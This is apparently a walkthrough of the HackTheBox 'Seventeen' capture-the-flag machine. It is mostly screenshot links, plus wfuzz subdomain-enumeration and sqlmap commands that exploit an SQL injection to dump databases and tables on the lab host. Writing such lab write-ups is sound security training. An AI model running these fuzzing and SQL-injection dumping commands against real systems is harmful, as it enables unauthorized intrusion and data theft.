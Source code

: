 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/seventeen%20logo.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/Seventeen.png)


## nmap all ports
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/nmap%20all%20ports.png)
## nmap services + versions
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/nmap%20services%20%2B%20versions.png)

## domain TCP 80 static--> new host: seventeen.htb
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/domain%20tcp%2080.png)

## wfuzz subdomains
````bash
wfuzz -u http://10.10.11.165 -H "Host:FUZZ.seventeen.htb" -w /opt/tools/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 20689

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/wfuzz%20subdomains.png)

## domain: exam.seventeen.htb --> php
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/domain%20exam.seventeen.htb.png)

## searchsploit
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/searchsploit.png)
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/searchsploit%20poc.png)

### sqli id parameter
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/sqli%20id%20parameter.png)

## sqlmap
### dump databases
````bash
sqlmap -r req.txt --dbs --batch --threads 10

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Seventeen/screenshots/sqlmap%20dump%20databases.png)

### dump tables of given databases
````bash
sqlmap -r req.txt --dbs --batch --threads 10 -D db_sfms,erms_db --tables

`````
